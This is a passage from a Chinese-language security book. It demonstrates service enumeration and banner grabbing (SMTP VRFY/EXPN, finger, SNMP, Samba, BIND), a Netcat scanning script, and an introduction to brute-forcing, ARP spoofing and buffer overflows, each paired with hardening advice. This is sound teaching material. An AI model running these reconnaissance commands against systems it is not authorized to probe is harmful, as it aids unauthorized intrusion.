8.11.6; Wed, 15 Jan 2003 22:04:06 -0500 (EST)
VRFY smith
250 2.1.5 <smith@sales.somecompanyasanexample.com>
```

以下是使用 EXPN 的示例：

```
[bash]$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/
8.11.6; Wed, 15 Jan 2003 22:10:11 -0500 (EST)
EXPN marketing-team
250-2.1.5 <bob@marketing.somecompanyasanexample.com>
250-2.1.5 <alan@marketing.somecompanyanexample.com>
250-2.1.5 <joe@marketing.somecompanyanexample.com>
250-2.1.5 <dilip@marketing.somecompanyanexample.com>
250-2.1.5 <john@legal.somecompanyanexample.com>
250-2.1.5 <kavita@sales.somecompanyanexample.com>
```

### 关闭 EXPN 和 VRFY

配置你的 SMTP 服务器使其不支持 EXPN 和 VRFY。在 Sendmail 中，编辑 `/etc/sendmail.cf` 并将 `PrivacyOptions` 设置为 `authwarnings, noexpn, novrfy`。

## DNS (域名系统): 53 (TCP/UDP)

DNS 是一种用于在域名和 IP 地址之间进行转换的协议。

### 获取 BIND 版本信息

在 Linux 和 Unix 上最广泛使用的 DNS 服务器软件是 BIND (Berkeley Internet Name Domain)。可以使用 `dig` 工具查询特定主机上运行的 BIND 版本。

例如，如果运行 BIND 的主机 IP 地址是 `192.168.1.1`：

```
[bash]$ dig -t txt -c chaos VERSION.BIND @192.168.1.1
; <<>> DIG 9.2.1 <><> -t txt -c chaos VERSION.BIND @192.168.1.1
;; global options: printcmd
;; Got answer:
;; -->HEADER<-- opcode: QUERY, status: NOERROR, id: 22464
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;VERSION.BIND. CH TXT

;; ANSWER SECTION:
VERSION.BIND. 0 CH TXT "8.3.3-REL"

;; Query time: 40 msec
;; SERVER: 192.168.1.1#53(192.168.1.1)
;; WHEN: Wed Jan 15 09:46:22 2003
;; MSG size rcvd: 64
```

### 配置 BIND 不显示版本信息

编辑 BIND 配置文件 `named.conf` 并覆盖版本号：

```
options {
    version "Not available";
}
```

你可能还希望为 BIND 配置特定的 ACL 并限制来自特定主机的查询。详情请参阅 BIND 文档。有关 BIND 的更多信息可以在 http://www.isc.org/products/BIND/ 找到。

## Finger: 79 (TCP)

Finger 是一个用户信息查询程序。对远程主机进行 finger 查询将提供当时登录该主机的个人的用户名、IP 地址、空闲时间以及真实姓名等信息。

### 使用 Finger 命令枚举远程用户

如果远程主机运行 finger 守护进程，可以使用命令行 finger 工具查询该主机：

```
finger @host
```

示例：

```
[bash]$ finger @192.168.1.1
Login Name TTY Idle When Where
bob bob pts/1 8 Wed 14:26 bobsaddress.bobsisp.org
rob Robert Smith pts/4 51 Wed 13:46 dhcp.robshomeisp.org
tang Tomas Tang pts/3 1:08 Wed 10:07 somecasanexample.com
```

也可以对特定用户名进行 finger 查询。查询特定用户名将产生关于该用户的一些信息，即使该用户当时没有登录：

```
finger username@host
```

示例：

```
[bash]$ finger root@192.168.1.1
Login name: root In real life: Sys Admin
Directory: / Shell: /usr/local/bin/tcsh
Last login Jan 11 14:26:51 on tty2

New mail received Wed Jan 15 14:36:29 2003;
unread since Wed Jan 11 14:29:54 2003
No Plan.
```

已知旧版本的 Solaris fingerd (finger 守护进程) 存在一个漏洞，如果使用类似 “a b c d e f g h” 的字符串进行查询，会泄露主机上的所有用户名列表：

```
finger 'a b c d e f g h'@host
```

有关此漏洞的更多信息，请参阅 http://www.securityfocus.com/bid/3457/info/。

### 禁用 Finger

如果你运行 finger 服务器，强烈建议考虑以下建议：

- 如果可能，考虑禁用 finger 服务。它向本地用户和入侵者提供了过多关于系统的信息。如果你使用 inetd，可以通过注释掉 `/etc/inetd.conf` 中的相应行来禁用 finger。如果你使用 xinetd，编辑 `xinetd.d` 目录中名为 `finger` 的文件，并确保存在以下行：
  `disable = yes`

你必须重启 inetd 或 xinetd 才能使更改生效。

- 如果必须运行 finger 服务器，请配置防火墙丢弃进入 79 端口的连接。这将防止外部网络的用户查询你的主机。

## HTTP (超文本传输协议): 80 (TCP)

HTTP 是一种无状态协议，用于分发各种超媒体。它最广泛地用于提供 WWW (万维网) 内容。

### 获取 HTTP 服务器 Banner

为了从 HTTP 服务器获取 banner 信息，请 telnet 到它们监听的端口并发送以下请求：

```
HEAD / HTTP/1.0[enter][enter]
```

例如：

```
[bash]$ telnet www.somecompanyasanexample.com 80
Trying 10.0.0.100...
Connected to www.somecompanyasanexample.com.
Escape character is '^'.
HEAD / HTTP/1.0 [enter]
[enter]
HTTP/1.1 200 OK
Date: Wed, 15 Jan 2003 17:59:12 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/
2.8.12 OpenSSL/0.9.6h
Content-Location: index.html.en
Vary: negotiate, accept-language, accept-charset
TCN: choice
Last-Modified: Thu, 09 May 2002 19:47:31 GMT
Accept-Ranges: bytes
Content-Length: 2673
Connection: close
Content-Type: text/html
Content-Language: en
Expires: Wed, 15 Jan 2003 17:59:12 GMT
Connection closed by foreign host.
```

某些 Web 服务器不允许 HEAD 请求。在这种情况下，我们必须执行 GET 查询：

```
GET / HTTP/1.0[enter][enter]
```

此查询将向你返回 banner 信息以及默认的索引页面（如 `index.html`）。

如果你想请求特定的网页，例如 `contact.html`，你需要在 GET 请求中附加其名称和路径：

```
GET /contact.html HTTP/1.0[enter][enter]
```

> 有时，单个 Web 服务器可用于为多个域名提供内容。在这种情况下，必须在请求中指定具体的域名。这可以在 GET 请求之后输入 "Host: domain-name" 来实现。例如：
GET / HTTP/1.0 [enter]
Host: www.domainname.com[enter][enter]

### 修改 HTTP 服务器 Banner

如果你运行 Apache，请编辑 `httpd.conf` 文件并确保存在以下指令：

```
ServerSignature Off
ServerTokens Prod
```

禁用 `ServerSignature` 令牌会指示 Apache 在显示如 “404-Not Found” 等错误页面时不打印版本信息。当 `ServerTokens` 指令被设置为 `Prod` 时，会指示 Apache 在横幅中仅显示 “Server: Apache”。如果您不希望在 Server 标签中显示 “Apache”，而是想显示如 “Server: Not-allowed” 之类的伪造信息，您需要：

- 1. 下载 Apache 源代码。
- 2. 编辑 httpd.h 文件，将行
  `#define SERVER_BASEPRODUCT "Apache"` 
  中的字符串 “Apache” 的值更改为其他内容：
  `#define SERVER_BASEPRODUCT "Not-allowed"` 
- 3. 重新编译、重新安装并重启 Apache。

## POP3 (Post Office Protocol 3): 110 (TCP)

POP3 是一种用于从邮箱服务器访问电子邮件的协议。

### 获取 POP3 服务器横幅

通过 Telnet 连接到 110 端口以获取 POP3 服务器横幅信息：

```
[bash]$ telnet 10.0.1.1 110
+OK POP3 10.0.1.1 v4.39 server ready
```

### 修改 POP3 服务器横幅

许多 POP3 服务器需要编辑其源代码才能更改服务器横幅。在这些情况下，您必须获取 POP3 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦您编辑源代码以反映新的横幅信息，请重新编译并重新安装 POP3 服务器。某些 POP3 服务器允许通过编辑相应的配置文件来更改横幅信息。详情请参阅您的 POP3 服务器文档。

## Portmapper: 111 (TCP)

基于 RPC（远程过程调用）的服务（如 NIS（网络信息服务））不监听静态端口。这些服务将其端口号注册到 Portmapper 中。

### 查询 Portmapper 的 RPC 服务

可以使用 `rpcinfo` 工具查询注册在 Portmapper 服务器上的 RPC 服务：

```
rpcinfo -p hostname
```

例如：

```
[bash]$ rpcinfo -p 192.168.1.1
```

| program | vers | proto | port | service |
|---|---|---|---|---|
| 100000 | 4 | tcp | 111 | portmapper |
| 100000 | 3 | tcp | 111 | portmapper |
| 100000 | 2 | tcp | 111 | portmapper |
| 100000 | 4 | udp | 111 | portmapper |
| 100000 | 3 | udp | 111 | portmapper |
| 100000 | 2 | udp | 111 | portmapper |
| 100024 | 1 | udp | 32782 | status |
| 100024 | 1 | tcp | 32779 | status |
| 100133 | 1 | udp | 32782 | |
| 100133 | 1 | tcp | 32779 | |
| 100021 | 1 | udp | 4045 | nlockmgr |
| 100021 | 2 | udp | 4045 | nlockmgr |
| 100021 | 3 | udp | 4045 | nlockmgr |
| 100021 | 4 | udp | 4045 | nlockmgr |
| 100021 | 1 | tcp | 4045 | nlockmgr |
| 100021 | 2 | tcp | 4045 | nlockmgr |
| 100021 | 3 | tcp | 4045 | nlockmgr |
| 100021 | 4 | tcp | 4045 | nlockmgr |
| 100005 | 1 | udp | 32795 | mountd |
| 100005 | 2 | udp | 32795 | mountd |
| 100005 | 3 | udp | 32795 | mountd |
| 100005 | 1 | tcp | 32784 | mountd |
| 100005 | 2 | tcp | 32784 | mountd |
| 100005 | 3 | tcp | 32784 | mountd |
| 100003 | 2 | udp | 2049 | nfs |
| 100003 | 3 | udp | 2049 | nfs |
| 100227 | 2 | udp | 2049 | nfs_acl |
| 100227 | 3 | udp | 2049 | nfs_acl |
| 100003 | 2 | tcp | 2049 | nfs |
| 100003 | 3 | tcp | 2049 | nfs |
| 100227 | 2 | tcp | 2049 | nfs_acl |
| 100227 | 3 | tcp | 2049 | nfs_acl |
| 100011 | 1 | udp | 51802 | rquotad |
| 100235 | 1 | tcp | 55451 | |
| 100004 | 2 | udp | 1007 | ypserv |
| 100004 | 1 | udp | 1007 | ypserv |
| 100004 | 1 | tcp | 762 | ypserv |
| 100004 | 2 | tcp | 51059 | ypserv |
| 100007 | 3 | udp | 56186 | ypbind |
| 100007 | 2 | udp | 56186 | ypbind |
| 100007 | 1 | udp | 56186 | ypbind |
| 100007 | 3 | tcp | 51390 | ypbind |
| 100007 | 2 | tcp | 51390 | ypbind |
| 100007 | 1 | tcp | 51390 | ypbind |

`rpc.rusersd` 和 `rpc.whod` 是两个提供类似于 finger 的用户信息的 RPC 服务：

```
[bash]$ rusers -1 192.168.1.1
bob 192.168.1.1:pts/1:t'y Jan 15 14:26 :08 (bobsipaddress.bobsip.org)
rob 192.168.1.1:pts/4 Jan 15 13:10 1:04 (dhcp.robshomeisp.org)
```

```
[bash]$ rwho 10.0.0.1
deapti 10.0.0.10:pts/2 Jan 15 10:10
joe 192.168.1.11:pts/1 Jan 12 14:33
```

### 禁用 Portmapper 和 RPC 服务

如果您运行任何 RPC 服务，强烈建议采取以下建议：

- 如果没有 RPC 服务在运行，请禁用 Portmapper。
- 通过在 `inetd.conf` 中注释掉相应的行来禁用 `rpc.rusersd` 和 `rpc.whod`。如果使用 xinetd，请检查 `xinetd.d` 目录，并确保您要禁用的服务对应的文件中包含此行：
  `disable = yes`
- 禁用任何不使用的 RPC 服务。

您必须重启 inetd 或 xinetd 才能使更改生效。

## NNTP (Network News Transfer Protocol): 119 (TCP)

NNTP 是一种用于分发、查询、检索和发布新闻文章的协议。

### 获取 NNTP 服务器横幅

许多 NNTP 服务器在连接时会打印出版本信息：

```
[bash]$ telnet 192.168.1.1 119
Connected to 192.168.1.1.
Escape character is '^]'.
200 192.168.1.1 InterNetNews NRNP server INN 1.4 22-Dec-93
ready (posting ok).
```

### 修改 NNTP 服务器横幅

许多 NNTP 服务器需要编辑其源代码才能更改服务器横幅。在这些情况下，您必须获取 NNTP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦您编辑源代码以反映新的横幅信息，请重新编译并重新安装 NNTP 服务器。某些 NNTP 服务器允许通过编辑相应的配置文件来更改横幅信息。详情请参阅您的 NNTP 服务器文档。

## Samba: 137 到 139 (TCP 和 UDP)

Samba 使用 SMB (Server Message Block) 协议在网络上共享文件和打印机。SMB 最常被 Microsoft Windows 操作系统使用。有关 Samba 项目的详情，请参阅 http://www.samba.org/。

### 枚举 Samba 服务器信息

Samba 的 `smbclient` 工具可用于从远程 Samba 服务器枚举信息：

```
[bash]$ smbclient -L sambaserver -I 10.0.0.1 -U ''
added interface ip=192.168.1.2 bcast=192.168.1.255 nmask=255.255.255.0
Password: [enter]
Domain=[REMOTEDOMAIN] OS=[Unix] Server=[Samba 2.2.8]
```

| Sharename | Type | Comment |
|---|---|---|
| IPC$ | IPC | IPC Service (Samba Server) |
| ADMIN$ | Disk | IPC Service (Samba Server) |

**Server Comment**
RSAMBASERVER

**Workgroup Master**
RGROUP RMASTERHOST

### 修改 Samba 服务器字符串和版本信息

可采取以下步骤来强化 Samba 服务器配置：

- 编辑 smb.conf 并将
  `server string = Samba Server`
  更改为其他内容：
  `server string = no information`
  这将更改显示在每个共享名称旁边的描述字段。
- 同时，利用 smb.conf 中的 `hosts allow` 和 `interfaces` 设置，以限制外部主机连接到您的 Samba 服务器。
- 为了更改实际的 Samba 版本信息，请编辑 source/include/version.h 文件，并将常量 VERSION 的值更改为其他内容。您必须重新编译并重新安装 Samba 才能使更改生效。

## IMAP2/IMAP4 (Internet Message Access Protocol 2/4): 143 (TCP)

IMAP2/4 是一种用于从邮箱服务器访问电子邮件的电子邮件访问协议。其特点包括能够在远程位置存储电子邮件。

### 获取 IMAP 服务器横幅

已知 IMAP2/4 服务器在连接时会打印出带有版本信息的欢迎横幅：

```
[bash]$ telnet 192.168.1.1 143
Connected to 192.168.1.1.
Escape character is '^]'.
* OK 192.168.1.1 IMAP4rev1 v12.264 server ready
```

### 修改 IMAP 服务器横幅

许多 IMAP 服务器需要编辑其源代码才能更改服务器横幅。在这些情况下，您必须获取 IMAP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦您编辑源代码以反映新的横幅信息，请重新编译并重新安装 IMAP 服务器。某些 IMAP 服务器允许通过编辑相应的配置文件来更改横幅信息。详情请参阅您的 IMAP 服务器文档。

## SNMP (Simple Network Management Protocol): 161, 162 (UDP)

SNMP 是一种用于管理 IP 网络上路由器和交换机等节点的维护协议。

### 枚举 SNMP

SNMP 服务器配置有一个类似于用户 ID 或密码的 “共同体字符串 (community string)”。当使用错误的共同体字符串查询 SNMP 服务器时，它不会响应。许多 SNMP 服务器具有默认的共同体字符串，如 “public” 和 “private”。当使用正确的共同体字符串查询 SNMP 服务器时，可以获得有用的信息：

```
[bash]$ snmpwalk 10.0.0.1 public
TCP/IP
system.sysObjectID.0 = OID: enterprises.36.2.15.2.3
system.sysUpTime.0 = Timeticks: (190724809) 22 days, 1:47:28.09
system.sysContact.0 = unknown
system.sysName.0 = 10.0.0.1
system.sysLocation.0 = Room G11, Ground Floor
interfaces.ifTable.ifEntry.ifPhysAddress.1 = 0:0e7:1:e3:1
interfaces.ifTable.ifEntry.ifPhysAddress.2 =
interfaces.ifTable.ifEntry.ifPhysAddress.3 =
interfaces.ifTable.ifEntry.ifPhysAddress.4 =
```

上述输出仅是通常长达数百行输出中的一小部分。显而易见，上述信息提供了大量的配置细节。`snmpwalk` 命令是大多数 Unix 和 Linux 发行版厂商提供的 net-snmp-utils 软件包的一部分。也可以从 http://www.net-snmp.org/ 获取。

### 防止 SNMP 枚举

如果您有任何主机配置为使用 SNMP，请考虑采取以下预防措施：

- 使用 SNMP 版本 2 或 3。
- 使用难以猜测的共同体字符串。


- 不要允许来自防火墙的入站 SNMP 流量。
- 限制您的 SNMP ACL，仅允许来自特定主机的连接。

## HTTPS (安全超文本传输协议): 443 (TCP)

HTTPS 是基于 SSL (安全套接字层) 的 HTTP。HTTPS 使用 SSL 来建立并维护安全通道，因此可以在客户端和服务器之间提供加密通信。

### 获取 HTTPS 服务器 Banner

可以使用命令行 openssl 工具连接到 HTTPS 服务器。与 HTTP (端口 80) 类似，可以使用如下请求：

```
HEAD / HTTP/1.0 [enter][enter]

or

GET / HTTP/1.0 [enter][enter]
```

来获取 banner 信息。
示例：

```
[bash]$ openssl s_client -connect:192.168.1.1:443
```

[各种证书信息已删除]

```
HEAD / HTTP/1.0 [enter]
[enter]
HTTP/1.1 200 OK
Date: Wed, 15 Jan 2003 17:59:12 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/2.8.12 OpenSSL/0.9.6h
Content-Location: index.html.en
Vary: negotiate, accept-language, accept-charset
TCN: choice
Last-Modified: Thu, 09 May 2002 19:47:31 GMT
Accept-Ranges: bytes
Content-Length: 2673
Connection: close
Content-Type: text/html
Content-Language: en
Expires: Wed, 15 Jan 2003 17:59:12 GMT

Closed
```

### 修改 HTTPS 服务器 Banner

请参阅 “修改 HTTP 服务器 Banner”。

## NNTPS (安全网络新闻传输协议): 563 (TCP)

NNTPS 是基于 SSL (安全套接字层) 的 NNTP。NNTPS 使用 SSL 来建立并维护安全通道，因此可以在客户端和服务器之间提供加密通信。

### 抓取 NNTPS 服务器 Banner

可以使用命令行 openssl 工具连接到 NNTPS 服务器以获取 banner 信息：

```
$ openssl s_client -connect:192.168.1.1:563
```

[各种证书信息已删除]

```
200 192.168.1.1 InterNetNews NNRP server INN 1.4 22-Dec-93 ready
(posting ok).
```

OpenSSL 可在 http://www.openssl.org/ 获取。

### 修改 NNTPS 服务器 Banner

请参阅 “修改 NNTP 服务器 Banner”。

## IMAPS (安全互联网邮件访问协议): 993 (TCP)

IMAPS 是基于 SSL (安全套接字层) 的 IMAP。IMAPS 使用 SSL 来建立并维护安全通道，因此可以在客户端和服务器之间提供加密通信。

### 抓取 IMAPS 服务器 Banner

可以使用命令行 openssl 工具连接到 IMAPS 服务器以获取 banner 信息：

```
$ openssl s_client -connect:192.168.1.1:993
```

[各种证书信息已删除]

```
* OK [CAPABILITY IMAP4 IMAP4REV1 LOGIN-REFERRALS AUTH=LOGIN]
localhost IMAP4rev1 2000.283 at Thu, 16 Jan 2003 03:51:56
-0500 (EST)
```

OpenSSL 可在 http://www.openssl.org/ 获取。

### 修改 IMAPS 服务器 Banner

请参阅 “修改 IMAP 服务器 Banner”。

## POP3S (安全邮局协议 3): 995 (TCP)

POP3S 是基于 SSL (安全套接字层) 的 POP3。POP3S 使用 SSL 来建立并维护安全通道，因此可以在客户端和服务器之间提供加密通信。

### 获取 POP3S 服务器 Banner

可以使用命令行 openssl 工具连接到 POP3S 服务器以获取 banner 信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:995

[Various items of certificate information deleted]

+OK QPOP (version 2.53) at 192.168.1.1 starting.
<3413.1213453134@192.168.1.1>
```

OpenSSL 可在 http://www.openssl.org/ 获取。

### 修改 POP3S 服务器 Banner

请参阅 “修改 POP3 服务器 Banner”。

## MySQL: 3306 (TCP)

MySQL 是一个流行的开源数据库软件包。可以通过 http://www.mysql.com/ 获取。

### 枚举 MySQL 版本信息

可以通过 telnet 客户端连接到远程 MySQL 服务器的端口来获取其版本号：

```
[bash]$ telnet 10.0.0.1 3306
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is `^]'.
(
3.23.49&r/3Nod*Connection closed by foreign host.
```

### 仅允许本地连接

不要允许内网以外的主机连接到 MySQL 服务。确保设有防火墙规则以拦截此类连接尝试。应鼓励获得授权的外部用户使用 SSH 等安全隧道工具来建立远程连接。

> 虽然可以通过编辑 MySQL 源代码来修改连接时立即显示的版本信息，但这样做很可能会导致许多 MySQL 客户端崩溃。

## 自动化 Banner 抓取

Netcat 是一个用于通过 TCP 或 UDP 在网络连接中读写数据的工具。它可以像命令行 telnet 客户端一样连接到远程服务器，或者在特定端口上监听入站连接。它还具有许多其他有趣的功能，您将在后面的章节中探索。Netcat 可在 http://www.atstake.com/research/tools/network_utilities/ 获取。Netcat 可以通过以下方式抓取 SMTP banner：

```
[bash]$ nc 192.168.1.1 25
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09:28:02 -0500 (EST)
```

通过简单的 bash shell 编程，您可以使用 Netcat 执行自动化的 banner 抓取。例如，考虑以下脚本（我们将其命名为 `grab.bash`）：

```bash
#!/bin/bash

if [ $# -lt 1 ]
then
    echo Usage: $0 host
    exit 1
fi

i=21
while [ "$i" -lt 26 ]
do
    nc -v $1 $i < /dev/null
    i=`expr $i + 1`
    echo
done
```

该脚本包含一个 `while` 循环，变量 `i` 的值范围从 21 到 25。在 `while` 循环内部，脚本会尝试连接到主机（传递给脚本的第一个参数，即 `$1`）的端口 `i` (21 到 25)，并将 `/dev/null` 作为 Netcat 连接的输入。由于 `/dev/null` 是一个不包含任何内容的特殊文件（空设备），Netcat 在抓取到 banner 的第一行（如果有的话）后会立即终止。

在尝试执行上述脚本之前，必须授予执行权限：

```bash
[bash]$ chmod u+x ./.grab.bash
```

现在运行该脚本：

```text
[bash]$ ./.grab.bash 192.168.1.1
192.168.1.1 [192.168.1.1] 21 (ftp) open
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
221 You could at least say goodbye.

192.168.1.1 [192.168.1.1] 22 (ssh) open
SSH-1.99-OpenSSH_3.4p1

192.168.1.1 [192.168.1.1] 23 (telnet) : Connection refused

192.168.1.1 [192.168.1.1] 24 (?) : Connection refused

192.168.1.1 [192.168.1.1] 25 (smtp) open
220 192.168.1.1 ESMTP Sendmail 8.9.3/8.9.3; Fri, 17 Jan 2003
14:13:10 -0500 (EST)
```

如果需要对多个主机执行上述脚本，您可以为 `grab.bash` 脚本编写一个包装脚本，如下所示：

```bash
#!/bin/bash

for i in `cat hosts.txt`
do
    ./grab.bash $i
    echo
done
```

上述脚本（可命名为 `wrapper-grab.bash`）将针对 `hosts.txt` 文件中列出的主机执行原有的 `grab.bash` 脚本。`hosts.txt` 文件必须包含目标主机的主机名或 IP 地址，格式如下：

```
192.168.1.1
10.0.0.1
somecompanyasanexample.com
```

虽然上述脚本适用于大多数服务，但请记得您需要发送 HEAD 请求才能获取 HTTP banner。为此，可以使用 Netcat 这样操作：

```
nc hostname 80 < getrequest.txt
```

其中 `getrequest.txt` 是包含以下内容的文件：

```
HEAD / HTTP/1.0[enter]
[enter]
```

请记得，对于 HTTPS、NNTPS、IMAPS 和 POP3S 等 SSL 端口，应按照前文所述使用 openssl 而非 Netcat。

## 总结

本章涵盖了使用 Amap 工具识别运行在非标准端口上的服务的方法，以及如何手动和自动识别运行在标准端口上的服务。您还学习了远程枚举用户名的不同方法。现在，您可以进入第 4 章，利用本章获得的信息来利用远程服务，从而获取对脆弱主机的访问权限。


## 第 4 章
## 远程入侵

### 本章内容：

- 远程服务
- Nessus
- 获取 Shell
- 端口重定向
- 破解 /etc/shadow
- 本章小结

本章将重点讨论入侵者经常用来获取远程主机未授权访问权限的技术。在识别服务并枚举所有可能的用户名之后，攻击者的下一个逻辑步骤就是利用目标主机上已知的服务和应用程序漏洞来攻破受害者主机。

## 远程服务

在查看详细的常用被攻击服务列表之前，我们必须首先了解入侵者所使用的不同类型的战术。

### 入侵战术

根据远程主机上开放的端口和服务，攻击者可能会选择使用许多不同的技术来尝试未授权访问。以下章节描述了潜在入侵者用于远程攻破脆弱主机的许多常见战术。

### 暴力破解

如果远程服务通过用户名和密码对来验证用户，那么获取访问权限最明显的方法就是尝试所有可能的用户名和密码组合。一种更高效的方法是仅尝试通过第 3 章所述的成功用户名枚举技术而累积的已知用户名。由于用户倾向于选择易于记忆且存在于字典中的密码，许多暴力破解工具利用了语言字典文件。

为了演示接下来的示例，我们将使用 Hydra，这是一个支持多种协议的暴力破解工具。它可以从 `http://www.thehackerschoice.com/releases.php` 下载。

> 这里所述的尝试所有可能的用户名和密码组合的行为被称为“主动”暴力破解。另一方面，像 John the Ripper 这样的密码破解工具可以用于暴力破解密码哈希，这种技术被称为“被动”暴力破解。详见本章末尾的“破解 /etc/shadow”部分。

### 防止暴力破解攻击的常见防御措施

以下是一系列可以更好地防止用户名和密码暴力破解的预防措施：

- 强制用户使用强密码。诸如 `npasswd`（可从 `http://www.utexas.edu/cc/unix/software/npasswd/` 获取）和 `pam_passwdqc`（可从 `http://www.openwall.com/passwdqc/` 获取）等实用程序有助于强制执行强密码策略。
- 要求密码过期并强制执行密码长度限制。根据您使用的发行版，编辑 `/etc/default/passwd` 或 `/etc/login.defs` 来实现此操作。
- 考虑使用动态密码方案，如 S/KEY 和 SecurID。

### 嗅探

在正常运行期间，目的地为其他主机的网络数据包会被网卡忽略。然而，大多数网卡可以通过嗅探程序（也称为“网络分析器”）被设置为运行在“混杂模式”下，从而使网卡将接收到的所有网络数据包传递给操作系统的 TCP/IP 栈。这使得某人能够检查主机接收到的每个网络数据包。由于许多协议以明文传输数据，恶意用户可以使用网络分析软件捕获在网络中传输的关键数据，如用户名和密码。

在集线器（hub）网络中，同一网段上的主机发送和接收的数据包会被所有其他参与主机接收。在这种情况下，恶意用户只需将其网卡设置为混杂模式，即可捕获该网段上的所有数据。

然而，在交换（switch）网络中，硬件交换设备确保主机仅接收目的地为它们自己的数据包。每个以太网网络设备由其供应商分配一个 12 位十六进制数，这个数字被称为设备的 MAC（媒体访问控制）地址。当交换网络上的主机传输数据时，其 MAC 地址会被交换机记录并存储在缓存中。未来目的地为该主机 MAC 地址的数据包将被传输到主机连接的交换机硬件端口上。可以使用 Ettercap 等工具执行 `ARP-spoofing`（ARP 欺骗），其中伪造的 ARP（地址解析协议）响应被用来在交换机上代理流量。考虑网络交换机上存在的以下主机：

- **V** 受害者主机
- **G** 网关主机
- **M** 恶意主机

为了执行 ARP 欺骗，主机 M 将向主机 G 和 V 发送 ARP 响应包。这些 ARP 响应包将导致主机 V 将主机 M 的 MAC 地址映射到主机 G 的 IP 地址，并导致主机 G 将主机 M 的 MAC 地址映射到主机 V 的 IP 地址。由于以太网数据包根据 MAC 地址进行路由，主机 M 将接收到所有在主机 G 和 V 之间传输的数据包。现在，如果主机 M 通过将这些数据包的 MAC 地址替换为主机 G 或 V 的 MAC 地址，将其路由到正确的目的地，那么受害者主机 G 和 V 将完全不知道它们的连接正被主机 M 代理。可以使用 Dsniff 和 Ettercap 等工具执行 ARP 欺骗。Ettercap 可在 http://ettercap.sourceforge.net/ 下载。Dsniff 可在 http://monkey.org/~dugsong/dsniff/ 获取。

### 常见的嗅探对策

网络嗅探工具使恶意用户能够轻松捕获网段上的数据。强烈建议采取以下对策：

- 不要使用明文协议。
- 一些交换机允许管理员静态映射 MAC 地址。然而，对于大型企业来说，这可能不可行。
- 许多 IDS（入侵检测系统）可以检测并报告 ARP 欺骗。Ettercap 可用于帮助检测网络上的伪造 ARP 响应。

### 中间人攻击

这类攻击涉及恶意用户拦截并篡改两个或多个受害者主机之间的数据。例如，注意在成功攻破 somecompanyasanexample.com 的内部 DNS 服务器后，入侵者可能会修改 DNS 配置，使所有针对 intranet.somecompanyasanexample.com 的 DNS 查询都指向入侵者的 IP 地址。这将导致用户在不知情的情况下连接到入侵者的主机，而不是 intranet.somecompanyasanexample.com。随后，入侵者可以通过连接到 intranet.somecompanyasanexample.com 的真实 IP 地址来代理受害者的连接。在这种场景下，入侵者成功发起了一次*中间人（man-in-the-middle）*攻击。

### 防止中间人攻击

使用安全协议，如 SSH、IMAPS 和 HTTPS。虽然这些协议仍可能受到中间人攻击的影响，但它们使用了加密密钥和证书，这会使软件客户端向终端用户发出可能受到攻击的警告。

### 配置错误

通常，服务配置错误会导致向未认证用户暴露不必要的信息。有时，配置错误可能会导致主机的完全沦陷。常见的配置错误及其防御措施列在接下来的“远程服务漏洞”章节中。

### 审计并加固主机配置

定期审计并加固主机配置策略是一个好主意。关于如何加固策略和服务的指令，请参阅本书第二部分的章节。

### 软件漏洞

软件漏洞是由设计缺陷引起的，例如不当的输入验证和边界检查。此类漏洞通常可远程利用，使攻击者能够在运行漏洞软件的主机上执行恶意代码。

*缓冲区溢出（Buffer overflows）*是许多可远程利用条件的起因。当进程向内存中分配的缓冲区空间之外写入数据时，就会发生这种情况。这会导致可执行栈空间被任意数据覆盖。攻击者可以通过提供精心设计的恶意输入来利用这种情况，导致进程用攻击者提供的可执行数据覆盖其栈空间。欲了解更多信息和细节，请参阅 Aleph One 编写的 “Smashing the Stack for Fun and Profit”，可在 `http://www.insecure.org/stf/smashstack.txt` 获取。


## 针对软件漏洞利用的常见防御措施

许多在线安全资源网站会发布针对各种漏洞的利用代码（exploit code）。请谨慎对待这些利用工具，因为已知有些工具包含恶意后门，可能会导致执行该工具的主机被攻陷。在虚拟机环境中测试未知的利用工具是一个好主意。最广泛使用的虚拟机软件由 VMware 提供，详情请参阅 http://www.vmware.com/。

有时，在漏洞公告或补丁发布之前，软件漏洞的远程利用程序就已经公开了。这类利用程序通常被称为 *零日漏洞利用（zero-day exploits）*。要防御针对未公开漏洞的攻击是不可能的。然而，每位系统管理员除了遵循以下建议外，还必须关注并应对异常的系统活动：

- 及时更新软件补丁。
- 订阅漏洞监视列表，如 Bugtraq。（访问 http://securityfocus.com/cgi-bin/sfonline/subscribe.pl 获取更多信息。）参阅本书参考中心的“在线资源”部分，以获取指向其他许多安全资源的指针。
- 为了防止某些类型的缓冲区溢出，可以使用以下几种解决方案：
    - StackGuard: http://www.immunix.org/stackguard.html
    - Libsafe: http://www.research.avayalabs.com/project/libsafe/
    - StackGhost: http://stackghost.cerias.purdue.edu/
    - Openwall: http://www.openwall.com/linux
      如果使用 Solaris，请编辑 `/etc/system` 并添加以下行：
      `set noexec_user_stack=1` 
      `set noexec_usr_stack_log=1` 
- 监控并处理 IDS（入侵检测系统）日志。

## 远程服务漏洞

以下是常见被利用的服务列表。该列表基于这些服务通常监听的标准端口号。

### 识别运行在非标准端口上的服务

此处列出的任何服务都可以配置为在非标准端口上监听。可以使用 Amap 等工具（可从 **http://www.thehackerschoice.com/releases.php** 获取）来确定监听在未知或非标准端口上的服务：

```
[bash]$ amap -sT intranet.somecompanysanexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar 9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar 9 09:30:59 2003
```

